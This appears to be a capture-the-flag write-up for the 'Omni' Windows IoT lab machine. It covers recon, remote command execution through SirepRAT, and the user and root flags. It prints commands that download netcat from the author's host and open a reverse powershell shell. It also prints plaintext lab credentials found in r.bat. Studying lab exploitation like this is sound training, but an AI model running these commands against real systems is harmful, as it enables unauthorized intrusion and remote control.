

Omni is a IoT device that running a Windows 10 system for IoT. The ip of the box is 10.10.10.204.

# Recon

I starting with *nmap* scan `nmap -sC -Sv -oA nmap/cache 10.10.10.204`



And I found:
- *Windows RPC*
- *Windows IIS httpd*

Credentials are required to access the web pages so I have decide gathering some infomration for this system and found [SirepRat](https://github.com/SafeBreach-Labs/SirepRAT).

Through SirepRAT is possible to upload file, so i uploaded a netcat for windows

>python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\Windows\System32\spool\drivers\color\nc64.exe -Uri http://10.10.14.94:8000/nc64.exe" --v 



and launched nc

>python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.94 8080 -e powershell.exe" --v



In `C:\Program Files\WindowsPowershell\Modules\PackageManagement` there is a file `r.bat` with some credentials



>user:**app** password:**mesh5143**
>user:**administator** password:**_1int3rn37ofTh1nGz**

# User
I can now log in with the credential of `app`



and i can execute commands as user `app` and launch a reverse shell



In the `Users` directory there aren't any users, so i checked for other disks




and in disk `U` there are the users `app` and `administrator`.

The user flag is encrypted



So i need to decrypt



# Root

For root this time need to login in the webpage as user `administrator` and execute the same steps for the user.

- Rev shell
- Move on disk `U`
- Decrypt flag in `U:\Users\administrator\root.txt`




